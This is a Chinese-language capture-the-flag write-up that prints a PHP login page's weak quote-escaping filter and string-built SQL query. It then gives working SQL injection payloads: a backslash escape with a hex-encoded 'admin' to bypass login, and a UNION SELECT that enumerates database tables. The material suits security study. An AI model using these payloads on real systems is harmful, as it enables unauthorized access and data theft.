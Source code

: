### scoreboard

打开看发现是scoreboard...看提示应该不难，然后flag果然藏在头er里，秒了。

### login as admin 0 和 0.1

首先点主页的`Source Code`查看源代码，简化一下大概流程。

```php
<?php

// 提示了表结构
// user -> id, user, password, is_admin

function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}

//对整个_POST过来的参数做了过滤。
$_POST = array_map(safe_filter, $_POST);

$connection_string = sprintf('mysql:host=%sdbname=%s;charset=utf8mb4', DB_HOST,DB_NAME);
//连接数据库，拼接sql
$sql = sprintf("SELECT * FROM `user` WHERE`user` = '%s' AND `password` = '%s'",
    $_POST['name'],
    $_POST['password']
);
//进行查询
}
?>
```

对我们发送的参数首先全转换成小写，然后匹配了几个敏感字串，如果有的话直接不给查询。

如果见多识广经验丰富看过的资料多的话，看到safe_filter里的`str_replace("'", "\\'", $str)`就应该立刻想到利用`'`变成了`\'`所以在前面再加个`\`就可以把单引号逃逸掉了。

然后发送`name=%df%5c' or user=0x61646d696e--+&password=guest`（用hex编码规避'admin'）得到第一个flag和一个提示`flag2 in the database!`

注意到输出点看源码是第二个列（前面给了表结构）`<h3>Hi, <?=htmlentities($user->user)?></h3>`，还是用`union select`的方式获取数据。

```sql
首先随便排个序把输出的用户名换成我们要查的东西
name=%df%5c' or user=0x61646d696e union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4 order by is_admin desc--+&password=guest
```
